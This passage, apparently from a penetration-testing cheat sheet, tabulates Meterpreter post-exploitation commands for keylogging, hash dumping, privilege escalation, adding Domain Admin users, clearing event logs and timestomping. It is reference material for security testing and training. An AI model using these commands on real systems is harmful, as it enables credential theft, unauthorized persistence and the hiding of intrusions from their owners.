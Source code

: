 | rev2self                                                | Revert back to the original user you used to compromise the target.                           |
| reg \<command>                                          | Interact, create, delete, query, set, and much more in the target’s registry.                 |
| setdesktop \<number>                                    | Switch to a different screen based on who is logged in.                                       |
| screenshot                                              | Take a screenshot of the target’s screen.                                                     |
| upload \<filename>                                      | Upload a file to the target.                                                                  |
| download \<filename>                                    | Download a file from the target.                                                              |
| keyscan\_start                                          | Start sniffing keystrokes on the remote target.                                               |
| keyscan\_dump                                           | Dump the remote keys captured on the target.                                                  |
| keyscan\_stop                                           | Stop sniffing keystrokes on the remote target.                                                |
| getprivs                                                | Get as many privileges as possible on the target.                                             |
| uictl enable \<keyboard/mouse>                          | Take control of the keyboard and/or mouse.                                                    |
| background                                              | Run your current Meterpreter shell in the background.                                         |
| hashdump                                                | Dump all hashes on the target. use sniffer Load the sniffer module.                           |
| sniffer\_interfaces                                     | List the available interfaces on the target.                                                  |
| sniffer\_dump \<interfaceID> pcapname                   | Start sniffing on the remote target.                                                          |
| sniffer\_start \<interfaceID> packet-buffer             | Start sniffing with a specific range for a packet buffer.                                     |
| sniffer\_stats \<interfaceID>                           | Grab statistical information from the interface you are sniffing.                             |
| sniffer\_stop \<interfaceID>                            | Stop the sniffer.                                                                             |
| add\_user \<username> \<password> -h \<ip>              | Add a user on the remote target.                                                              |
| add\_group\_user <"Domain Admins"> \<username> -h \<ip> | Add a username to the Domain Administrators group on the remote target.                       |
| clearev                                                 | Clear the event log on the target machine.                                                    |
| timestomp                                               | Change file attributes, such as creation date (antiforensics measure).                        |
| reboot                                                  | Reboot the target machine.                                                                    |
